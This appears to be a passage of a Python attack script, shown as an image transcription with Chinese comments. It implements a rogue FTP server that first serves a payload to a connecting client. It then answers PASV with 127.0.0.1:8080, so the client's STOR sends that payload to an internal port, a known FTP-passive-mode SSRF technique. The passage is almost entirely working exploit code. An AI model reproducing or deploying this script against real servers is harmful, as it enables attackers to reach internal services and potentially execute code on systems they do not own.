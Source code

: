 ```
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    print("220 ")
    conn.send(b"220 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    print("220 ready")
    conn.send(b"220 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文
    print("200 ")
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        print("227 %s,4,210" % (shell_ip.replace('.', ',')))
        conn.send(b"227 %s,4,210\n" % (shell_ip.replace('.', ',').encode()))  # 服务端告诉客户端需要到那个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        print("227 127,0,0,1,31,144")
        conn.send(b"227 127,0,0,1,31,144\n")  # 端口计算规则：31*256+144=8080

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        print("125 ")
        conn.send(b"125 \n") # 告诉客户端可以开始数据链接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        print("150 ")
        conn.send(b"150 \n")

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        print("226 ")
        conn.send(b"226 \n")
    
    print(conn.recv(20))  # QUIT\r\n
    print("221 ")
    conn.send(b"221 \n")
    conn.close()
    count += 1

```
